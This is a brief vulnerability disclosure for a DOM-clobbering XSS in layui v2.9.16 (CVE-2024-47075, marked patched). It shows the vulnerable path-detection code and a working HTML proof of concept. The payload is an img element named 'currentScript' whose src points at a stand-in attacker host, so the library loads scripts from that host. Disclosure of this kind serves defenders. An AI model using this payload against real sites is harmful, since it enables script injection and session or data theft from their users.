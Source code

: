 ## layui

### Meta

+ Library: layui
+ Stars: 29.5K
+ Version: v2.9.16
+ Fingerprint: `window.LAYUI_GLOBAL  !== undefined`
+ Payload: ```<img name="currentScript" src="https://attack.hulk">```
+ Impact: XSS
+ CVE: [CVE-2024-47075](https://github.com/layui/layui/security/advisories/GHSA-j827-6rgf-9629)
+ Status: Patched
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/layui/layui

### Vulnerable Code Snippet

```javascript
var doc = win.document;
  var config = {
    modules: {}, // 模块物理路径
    status: {}, // 模块加载状态
    timeout: 10, // 符合规范的模块请求最长等待秒数
    event: {} // 模块自定义事件
  };

  var Layui = function(){
    this.v = '2.9.16'; // Layui 版本号
  };

  // 识别预先可能定义的指定全局对象
  var GLOBAL = win.LAYUI_GLOBAL || {};

  // 获取 layui 所在目录
  var getPath = function(){
    var jsPath = doc.currentScript ? doc.currentScript.src : function(){
      var js = doc.scripts;
      var last = js.length - 1;
      var src;
      for(var i = last; i > 0; i--){
        if(js[i].readyState === 'interactive'){
          src = js[i].src;
          break;
        }
      }
      return src || js[last].src;
    }();

    return config.dir = GLOBAL.dir || jsPath.substring(0, jsPath.lastIndexOf('/') + 1);
  }();
```

## PoC

```html
<!--Library-->
<!-- <link href="./layui.css" rel="stylesheet" /> -->
<script src="./layui.js"></script>
<script>
  // Usage
  layui.use(function () {
    var layer = layui.layer;
    // Welcome
    layer.msg("Hello World", { icon: 6 });
  });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```